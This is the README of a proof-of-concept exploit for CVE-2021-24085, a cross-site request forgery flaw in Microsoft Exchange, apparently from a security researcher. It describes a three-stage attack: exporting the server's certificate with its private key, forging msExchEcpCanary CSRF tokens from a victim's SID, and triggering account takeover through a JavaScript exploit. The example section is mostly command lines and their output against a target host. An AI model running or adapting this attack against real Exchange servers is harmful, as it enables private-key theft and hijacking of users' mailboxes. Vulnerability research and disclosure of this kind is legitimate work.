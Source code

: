 # Microsoft Exchange Server msExchEcpCanary Cross Site Request Forgery Elevation of Privilege Vulnerability

This is a Proof of Concept for CVE-2021-24085.

1. `poc.py` downloads the targets cert file with private key inside
2. `YellowCanary` generates the `msExchEcpCanary` csrf token for a specific user based on the SID
3. `poc.js` is the csrf exploit to trigger an account takeover

I have not provided the `malicifest.xml` file but you can find information on how to generate a malcious manifest file from the available resources in the below references section.

## Example

Access the certificate with private key inside:

```
researcher@srcincite:~$ ./poc.py
(+) usage: ./poc.py <target> <user:pass>
(+) eg: ./poc.py 192.168.75.142 harryh@exchangedemo.com:user123###

researcher@srcincite:~$ ./poc.py 192.168.75.142 harryh@exchangedemo.com:user123###
(+) found the thumbprint: F4EB6AADB8D7C0D12E756BA2E28F90CCACD41299
(+) exported the cert to the target filesystem
(+) saved the cert to testcert.der using password: hax
```

Now you can generate csrf tokens with `YellowCanary` using a target users SID:

```
c:\Users\researcher>poc.exe S-1-5-21-257332918-392067043-4020791575-3104 testcert.der hax

            #====================================================
            # YellowCanary - generate msExchEcpCanary csrf tokens
            #====================================================

security identifier : S-1-5-21-257332918-392067043-4020791575-3104
msExchEcpCanary     : sA0o0nS_C0G_PMdcA_dAd5BdAEL_-NcYhndaAwlhBJFs4a4iKy4sn53azH-O5Ix3F0jnwzZZUsk.
```
  
## References:

- https://www.mdsec.co.uk/2019/01/abusing-office-web-add-ins-for-fun-and-limited-profit/
- https://info.phishlabs.com/blog/office-365-phishing-uses-malicious-app-persist-password-reset
